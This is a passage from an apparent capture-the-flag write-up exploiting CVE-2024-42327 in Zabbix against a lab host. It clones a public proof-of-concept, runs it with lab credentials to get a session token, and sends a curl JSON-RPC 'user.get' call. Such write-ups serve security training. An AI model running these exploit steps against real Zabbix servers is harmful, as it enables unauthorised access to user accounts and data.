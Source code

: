 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020250221174245.png)

This is a critical vulnerability, let's start the exploitation process.

# EXPLOITATION
---

Once knowing we're dealing with `CVE-2024-42327`, let's try to exploit it:

```
git clone https://github.com/aramosf/cve-2024-42327/
```

We can use this PoC to check if the Zabbix is vulnerable, it retrieves data from other users:

```
python3 cve-2024-42327.py -u http://10.10.11.50/zabbix/api_jsonrpc.php -n matthew -p 96qzn0h2e1k3

Valid session token: 062cf49c33768876fee4241348f7bf9d
```

It retrieved data, let's go further, we need to reproduce the following steps:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250221175827.png)

Let's begin by creating an API token:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250221175915.png)


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250221175924.png)

Our generated API token is:

```
acd87cfdc51fc832b066a4d3beebf72d30d88e64404c0972374502fbd41407dd
```

Now, knowing the endpoint of the application is `/api_jsonrc.php`, we can use curl to make a call and check the behavior of the API:

```bash
curl -X POST --url http://10.10.11.50/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.get", "params":{"output": "extend"},"auth":"acd87cfdc51fc832b066a4d3beebf72d30d88e64404c0972374502fbd41407dd", "id": 1}' -s | jq 
```


We get this output:

```json
{
  "jsonrpc": "2.0",
  "result": [],
  "id": 1
}
```
